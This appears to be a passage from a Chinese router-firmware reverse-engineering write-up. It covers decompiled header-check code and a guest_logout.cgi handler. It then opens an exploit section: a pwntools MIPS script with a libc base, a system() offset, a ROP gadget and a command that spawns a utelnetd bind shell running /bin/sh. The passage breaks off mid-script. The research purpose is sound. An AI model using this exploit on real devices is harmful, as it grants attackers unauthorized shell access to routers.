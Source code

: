 ```c
            goto LAB_00445344;
          }
                    /* 鉴别信息3 */
          size_loc = strcmp(hanlde_chunk + 4,(char *)&IF_LANG);
          if (size_loc != 0) {
            pFVar3 = fopen("/dev/console","w");
            if (pFVar3 != (FILE *)0x0) {
              fwrite("it\'s code.bin\n",1,0xe,pFVar3);
              fclose(pFVar3);
            }
```

该函数会提取并验证bin文件中特定位置的值，比对版本等，因此虽然这也是squashfs文件系统但压缩算法是有差别的，所以如果直接用`mksquashfs`重新打包固件刷入路由器固件直接GG



#### 小结

对于这样用指针表动态调用的函数(虚函数表)，需要找到**关键的遍历点**，还有**建立结构体**

但我不知道为啥那个结构体引存放了`geust_logout.cgi`函数，但是交叉引用看不出来，我猜也许是应为这里既不属于函数区域，也不属于字符串区域所以IDA或者ghidra没有对这里进行分析



### Exp

```python
#!/usr/bin/env python
from pwn import *
import requests
import sys

context.arch = "mips"
context.endian = "little"
libc_addr = 0x40d0d000#0x2af98000  
system_off = 0x004C7E0

gadget_0 = 0x000257A0			#addiu $a0,$sp,0x58+var_40                           |  jalr  $s0

# ./poc url back_ip
cmd = "/usr/sbin/utelnetd -p2333 -l/bin/sh"
url = sys.argv[1] + '/guest_logout.cgi'

